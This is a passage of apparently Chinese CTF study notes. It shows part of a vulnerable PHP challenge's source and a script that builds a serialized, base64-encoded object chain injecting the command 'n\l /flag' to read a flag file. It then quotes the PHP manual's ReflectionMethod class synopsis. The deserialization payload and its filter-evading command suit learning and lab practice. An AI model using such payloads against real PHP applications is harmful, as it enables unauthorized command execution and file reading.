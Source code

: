 ```bash
        }
    }
}
class register{
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            die('success register admin');
        }else{
            die('please register admin ');
        }
    }
}
class Open{
    function open($filename, $content){
        if(!file_get_contents('waf.txt')){
            shell($content);
        }else{
            echo file_get_contents($filename.".php");
        }
    }
}
$a=new Game();
$a->username='admin';
$a->password='admin';
$a->register='admin';
$a->file=new Open();
$a->filename='a';
$a->content='n\l /flag';
echo base64_encode(serialize($a));
```

# ReflectionMethod:获取类方法的相关信息

[PHP: ReflectionMethod - Manual](https://www.php.net/manual/zh/class.reflectionmethod)

**ReflectionMethod** 类报告了一个方法的有关信息。可以在 PHP 运行状态中，扩展分析 PHP 程序，导出或提取出关于类、方法、属性、参数等的详细信息，包括注释。这种动态获取的信息以及动态调用对象的方法的功能称为反射 API

类摘要

```bash
class ReflectionMethod extends ReflectionFunctionAbstract {
/* 常量 */
public const int IS_STATIC;
public const int IS_PUBLIC;
public const int IS_PROTECTED;
public const int IS_PRIVATE;
public const int IS_ABSTRACT;
public const int IS_FINAL;
/* 属性 */
public string $class;
/* 继承的属性 */
public string $name;
/* 方法 */
public __construct(object|string $objectOrMethod, string $method)
public __construct(string $classMethod)
public static createFromMethodName(string $method): static
public static export(string $class, string $name, bool $return = false): string
public getClosure(?object $object = null): Closure
public getDeclaringClass(): ReflectionClass
public getModifiers(): int
public getPrototype(): ReflectionMethod
public hasPrototype(): bool
```